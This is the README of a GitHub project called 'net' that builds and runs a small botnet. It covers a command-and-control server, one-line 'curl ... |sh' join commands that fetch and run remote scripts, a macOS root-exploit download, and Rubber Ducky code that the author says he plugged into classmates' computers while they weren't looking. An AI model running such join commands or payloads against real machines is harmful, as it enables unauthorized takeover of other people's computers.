 <img alt="Lynchburg College logo" src="https://bloximages.newyork1.vip.townnews.com/newsadvance.com/content/tncms/assets/v3/editorial/d/65/d65813d4-0da7-11e7-96af-4f86a016526b/58d0350ab3ae0.image.jpg" align="right" width=200>

# net
Code for building and administrating a rudimentary botnet.

**Please note that I strictly used this code for educational purposes. I do not and never have run a DDoSsing botnet or other such illegal operation and do not condone the use of this code for any malicious purpose.**

I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the cybersecurity class in which I partook. This activity was part of the class, and I absolutely never violated any rules.

## How it works
### Command & Control
C&C is managed on ports `2042` & `2043` of a server.

Instructional scripts are served via HTTP on port `2042`. Run
```sh
python3 -m http.server 2042
```
from the `control` directory to make them available to nodes upon request.

A simple Python script opens a socket on port `2043` which listens for incoming data from nodes. All requests to the server are printed to the terminal, and important ones may be written into a file `nodes.txt`. Run
```sh
python3 server.py
```
after installing the dependencies listed in `requirements.txt` to listen for incoming data.

This process can be streamlined by using `./launch.sh` to automatically open two `tmux` windows with the appropriate commands.

### Joining
On macOS, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-command joining: it will download and decrypt an exploit needed to elevate (on OS X El Capitan) to a root shell and then run `enact.sh` in that root shell automatically. That script will handle joining the botnet. If you already have root access, you can just run `enact.sh` directly.

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Here are simple one-liners to join the botnet:

Mac:
```sh
curl [host]:2042/mac/join.sh |sh
```
Linux:
```sh
curl [host]:2042/linux/join.sh |sh
```

To save time and keystrokes, you can use these shortcuts:
```sh
curl [host]:2042/jm |sh
curl [host]:2042/jl |sh
```

Or, to save even more time, you can skip the part where you think about what operating system the computer is using and simply type:
```sh
curl [host]:2042/join.sh |sh
```

Really in a hurry? There's a shortcut for this as well:
```sh
curl [host]:2042/j |sh
```

### Rubber Duck code
In the `duck` directory, you'll find Arduino code for delivering the join scripts automatically to macOS and Linux computers.

I used this code with a Digispark ATTINY85 drive, though it can be easily modified to work with other Rubber Duck USBs.

During the cybersecurity class in which I developed `net`, I plugged the drive into users' computers while they weren't looking, saving me the inconvenience of having to attain keyboard access.

To upload this code to your drive, follow [this tutorial](https://www.youtube.com/watch?v=fGmGBa-4cYQ).

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command through SSH. This is less useful now that cron control exists. You can also run `up.sh` to view which/how many nodes on the current network are online.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).

I'm not affiliated with Lynchburg College in any way, nor does the college endorse this software.
